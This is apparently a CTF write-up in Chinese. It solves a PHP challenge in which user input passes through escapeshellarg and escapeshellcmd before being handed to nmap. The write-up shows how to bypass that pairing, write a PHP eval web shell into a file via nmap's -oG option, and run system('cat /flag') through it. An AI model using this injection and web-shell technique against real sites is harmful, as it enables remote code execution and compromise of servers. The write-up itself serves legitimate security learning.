 ![[Pasted image 20221113171258.png|500]]
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
大家是都不喜欢闭合`php`标签吗QAQ

---
搜索得知，这里`$host`经过`escapeshellarg`和`escapeshellcmd`的处理是可以被绕过的

https://paper.seebug.org/164/
> 1.  传入的参数是：`172.17.0.2' -v -d a=1`
> 2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
> 3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
> 4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。

```shell
chen@cracktc-no-omen ~> echo '172.17.0.2'\\'' -v -d a=1\'  
172.17.0.2\ -v -d a=1'
```
---
`nmap`的手册中，和输出有关的参数如下
```
OUTPUT:  
  -oN/-oX/-oS/-oG <file>: Output scan results in normal, XML, s|<rIpt kIddi3,  
     and Grepable format, respectively, to the given filename.  
  -oA <basename>: Output in the three major formats at once  
  -v: Increase verbosity level (use twice for more effect)  
  -d[level]: Set or increase debugging level (Up to 9 is meaningful)  
  --packet-trace: Show all packets sent and received  
  --iflist: Print host interfaces and routes (for debugging)  
  --append-output: Append to rather than clobber specified output files  
  --resume <filename>: Resume an aborted scan  
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML  
  --no-stylesheet: Prevent Nmap from associating XSL stylesheet w/XML output
```
因此可以利用`-oG`上传木马

---
想上传的东西是这个
```php
<?php eval($_GET["cmd"]);?> -oG shell.php
```
其中像是`<`、`?`这些特殊符号必会被`escapeshellcmd`加上`\`，我们需要保证这些符号能在shell层面被直接解析
```php
'<?php eval($_GET["cmd"]);?> -oG shell.php '
```
会变成
```php
''\''<?php eval($_GET["cmd"]);?> -oG shell.php '\'''
```
然后变成
```php
''\\''\<\?php eval\(\$_GET\["cmd"\]\)\;\?\> -oG shell.php '\\'''
```
即可被解析

![[Pasted image 20221113194543.png]]
```php
/xxx/shell.php?cmd=system('cat /flag');
```
![[Pasted image 20221113194826.png]]

#Web #PHP #RCE #shell